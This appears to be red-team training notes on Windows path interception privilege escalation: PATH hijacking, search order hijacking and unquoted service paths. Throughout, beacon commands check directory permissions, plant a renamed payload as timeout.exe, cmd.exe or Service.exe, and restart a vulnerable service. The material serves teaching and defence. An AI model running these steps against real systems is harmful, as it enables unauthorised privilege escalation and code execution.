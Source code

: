 Path interception is a class of vulnerability that occurs when an adversary is able to drop an executable into a location where it will get executed before the intended one.  There are a few ways in which this can manifest, which are described below.

## PATH Environment Variable

The PATH environment variable contains a list of directories from which common programs are run.  For example, if you use `net` in a script or on the command line, `C:\Windows\System32\net.exe` is what gets executed.  Windows doesn't know where net.exe exists ahead of time, so it searches through each directory in the PATH to find it.

Each environment variable, including PATH, can be seen using the `env` command.

```powershell
beacon> env
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Program Files\Bad Windows Service;C:\Users\pchilds\AppData\Local\Microsoft\WindowsApps
```

This variable is constructed from two locations:

- #### User
    
    These entries are read from the `HKEY_CURRENT_USER\Environment` registry key.  Each user on the computer can have a different path variable, which they are free to modify.
    
- #### Machine
    
    These entries are read from the `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager\Environment` registry key.  Standard users cannot modify this.
    

The PATH variable for user processes is a concatenation of the Machine + User paths, whereas system processes just use the Machine paths.  Path interception by the PATH variable [T1574.007](https://attack.mitre.org/techniques/T1574/007/) occurs when additional directories get added to the machine's variable that are also writable by standard users.

Software installers commonly add their own paths _before_ the default ones.

```powershell
Path=C:\Python313\Scripts\;C:\Python313;C:\Windows\system32;C:\Windows; ... etc ...
```

This is particularly troublesome when the software is installed in the system root (i.e. C drive), because directories created here are writeable by standard users by default.  The permissions of a file or directory can be read using the `cacls` command.

```powershell
beacon> cacls C:\Python313\Scripts\

C:\Python313\Scripts\ BUILTIN\Administrators:(CI)(OI)F
                      NT AUTHORITY\SYSTEM:(CI)(OI)F
                      BUILTIN\Users:(CI)(OI)R
                      NT AUTHORITY\Authenticated Users:C
                      NT AUTHORITY\Authenticated Users:(CI)(OI)(IO)(special access:)
                                                                   DELETE
                                                                   GENERIC_READ
                                                                   GENERIC_WRITE
                                                                   GENERIC_EXECUTE
```

The key for this output is as follows:  

- **F**: Full
- **R**: Read & execute
- **C**: Read, write, execute, & delete
- **W**: Write
    

From this, we can see that Authenticated Users can write into `C:\Python313\Scripts`.

Now, consider the following C# code, which simply calls `cmd /c timeout`.
![[Pasted image 20250707100842.png]]
The timeout executable exists on disk at `C:\Windows\System32\timeout.exe`, which Windows must search the PATH environment variable to find.  This can therefore be exploited by dropping a binary called _timeout.exe_ into the `C:\Python313\Scripts` directory, because it will be searched before System32.

```powershell
beacon> cd C:\Python313\Scripts
beacon> upload C:\Payloads\dns_x64.exe
beacon> mv dns_x64.exe timeout.exe
```

![[Pasted image 20250707100936.png]]

> Dropping a malicious binary as _cmd.exe_ in the same path will not work in this scenario (even though it's called with a relative path), which is explained in more detail below.

## Search Order Hijacking

As demonstrated above, when a program is run from a script or command line using a relative path, Windows must search the PATH environment variable to find it.  This can lead to hijacking opportunities if the PATH contains directories that proceed System32 and other core directories, that are also writable by standard users.

The note hints that cmd.exe cannot be executed in this case, which is because the underlying APIs used to run processes can follow different search orders (of which the PATH variable is just a small part).  Path interception by search order hijacking [T1574.008](https://attack.mitre.org/techniques/T1574/008/) occurs when an attacker can hijack this search order.

The behaviour of the calling application depends on which API and parameters are used to execute the target program.  The [WinExec](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec) API follows a similar search order to that of DLLs, which is:

- The executing directory.
    
- The current working directory.
    
- The System32 directory.
    
- The 16-bit System directory.
    
- The Windows directory.
    
- Directories in the PATH environment variable.
    

The [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) API can vary.  If `lpApplicationName` _is_ provided, then it will only search the current working directory.  By default, all services start with their current working directory set to `C:\Windows\System32`, which is why cmd.exe could not be hijacked using the PATH variable above.  If lpApplicationName is _not_ provided and `lpCommandLine` _is_, then it will follow the above search order.  The [Process](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process) class in .NET will call either [ShellExecuteEx](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecuteexa) or CreateProcess depending on which parameters are passed to it.  ShellExecuteEx assumes the current working directory if a partial path is provided.

Hijacking cmd.exe would be possible if an adversary has write access to a directory that proceeds the legitimate one in the search order.  The only directory that proceeds the binary's current working directory and System32 is its executing directory, i.e. the directory the binary is located in, which in this example is `C:\Program Files\Bad Windows Service\Service Executable`.

In this case, we can see that the directory the service binary is running from is writable (in fact, Authenticated Users has full control over it).

```powershell
beacon> cacls "C:\Program Files\Bad Windows Service\Service Executable"
C:\Program Files\Bad Windows Service\Service Executable NT AUTHORITY\Authenticated Users:(CI)(OI)F

beacon> cd C:\Program Files\Bad Windows Service\Service Executable
beacon> upload C:\Payloads\dns_x64.exe
beacon> mv dns_x64.exe cmd.exe
```

![[Pasted image 20250707101712.png]]
## Unquoted Paths

CreateProcess exhibits more interesting behaviour when the lpCommandLine parameter contains spaces _and not_ encapsulated by a set of quotations, as it does not follow the search order but instead tries to interpret the path based on whitespaces.  For example, `C:\Program Files\Bad Application\Bad Program.exe` would be interpreted as:

- C:\Program
    
- C:\Program.exe
    
- C:\Program Files\Bad
    
- C:\Program Files\Bad.exe
    
- C:\Program Files\Bad Application\Bad
    
- C:\Program Files\Bad Application\Bad.exe
    
- C:\Program Files\Bad Application\Bad Program.exe
    
- C:\Program Files\Bad Application\Bad Program.exe.exe

Path interception by unquoted path [T1574.009](https://attack.mitre.org/techniques/T1574/009/) can be exploited if an adversary can write a malicious program in one of these interpreted paths that occurs before the legitimate path.  A common scenario where this can be abused is when a service is configured to run a binary, but the path to that binary both has spaces and is unquoted.

This output of `sc_enum` shows that BadWindowsService is configured with an unquoted path.

```powershell
beacon> sc_enum

SERVICE_NAME: BadWindowsService
    [...snip...]
	BINARY_PATH_NAME               : C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe
```

This can be exploited if they can write to a location within the path where it will be interpreted differently, such as `C:\Program Files\Bad.exe` or `C:\Program Files\Bad Windows Service\Service.exe`, etc.

> [!NOTE] **IMPORTANT**
> When abusing services, the dedicated svc.exe payloads must be used.

```powershell
beacon> cacls "C:\Program Files\Bad Windows Service"
C:\Program Files\Bad Windows Service NT AUTHORITY\Authenticated Users:(CI)(OI)F

beacon> cd C:\Program Files\Bad Windows Service
beacon> upload C:\Payloads\dns_x64.svc.exe
beacon> mv dns_x64.svc.exe Service.exe
```

A service runs its binary when it starts, so a service must be stopped and restarted to execute the malicious binary after it has been dropped to disk.  It may be the case that the adversary does not have permissions to do this, and therefore must wait until the computer restarts.  If they do have permissions, the `sc_stop` and `sc_start` commands can be used.

```powershell
beacon> sc_stop BadWindowsService
stop_service:
  hostname:    
  servicename: BadWindowsService
SUCCESS.

beacon> sc_start BadWindowsService
start_service:
  hostname:    
  servicename: BadWindowsService
SUCCESS.
```

![[Pasted image 20250707101704.png]]